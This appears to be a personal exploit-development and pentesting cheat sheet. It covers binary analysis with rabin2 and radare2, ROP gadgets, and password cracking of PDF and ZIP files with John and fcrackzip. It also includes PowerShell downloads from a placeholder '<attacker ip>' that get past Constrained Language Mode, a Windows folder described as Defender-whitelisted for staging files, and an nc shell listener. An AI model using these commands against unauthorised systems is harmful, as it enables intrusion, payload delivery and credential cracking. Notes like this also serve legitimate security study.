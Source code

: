 # Exploit dev
Show binary protections:  
```
$ rabin2 -I <binary>
$ checksec -f <binary>
```

List imported functions:  
```
$ rabin2 -i <binary>
```

List functions written by the programmer (approx.):  
```
$ rabin2 -qs <binary> | grep -ve imp -e ' 0 '
```

List symbols: (a = inlcude debug symbols, n = sort by address [numeric])
```
$ nm -a -n <binary>
```

Strings:  
```
$ rabin2 -z <binary>
```

ROP gadgets:
```
$ python3 Ropper.py -f <file(s)>
      --all
      --search 'inc eax'
      --jmp eax
      --badbytes 000a0d
      --console
      --help
```

## Radare2
| Function                  | Command |
| ---                       | --- |
| Open file                 | ```$ r2 <binary>``` |
| Help                      | ```> ?``` |
| Quit                      | ```> q``` |
| Analyse all               | ```> aa``` |
| List functions            | ```> afl``` |
| Disassemble function      | ```> pdf [@ <function name>]``` |

# Python

## Host webserver in current directory
```python3 -m http.server```  
```python2 -m SimpleHTTPServer```

# PDF files
## Tools
https://blog.didierstevens.com/programs/pdf-tools/

## Crack
Download Bleeding John (https://github.com/magnumripper/JohnTheRipper). Use pdf2john.pl.
```Kali
$ perl pdf2john.pl file.pdf > pdf-hash.txt
$ john --wordlist=/w/rockyou.txt pdf-hash.txt
```

# PIL
## 
```python
from PIL import Image
img = Image.open("image.png")
pixels = list(img.getdata())
```

# ZIP files
## Crack
```Kali
$ fcrackzip -u -D -p '/w/rockyou.txt' -v file.zip
```

# Windows

## World-write/readable Directory, Windows Defender whitelist, and on UAC bypass list
```C:\Windows\System32\spool\drivers\color\```

## Powershell

### Is Poserwhell running in Constrained language mode?
```$ExecutionContext.SessionState.LanguageMode```

### Download file over HTTP (works in CLM)
```PS C:\> Invoke-WebRequest -uri http://<attacker ip>/<file> -o <output filename> ```
```PS C:\> iwr -uri http://<attacker ip>/<file> -o <output filename> ```

# PostSploit

## Arrow-support for nc
```rlwrap nc -nvlp 4444```

# Tmux
| Action            | Command |
|---                |---|
| New tmux          | ```tmux new -s ...``` |
| List tmuxs        | ```tmux ls``` |
| Attach to tmux    | ```tmux a -t ...``` |
| Detatch from tmux | ```Ctrl+b d``` |
| Scroll mode       | ```Ctrl+b [``` |
| Exit scroll mode  | ```q``` |

# Android
## Decompile APK
```apktool d package.apk```

## Recompile APK
```
apktool d package/
mv package/dist/package.apk .
```
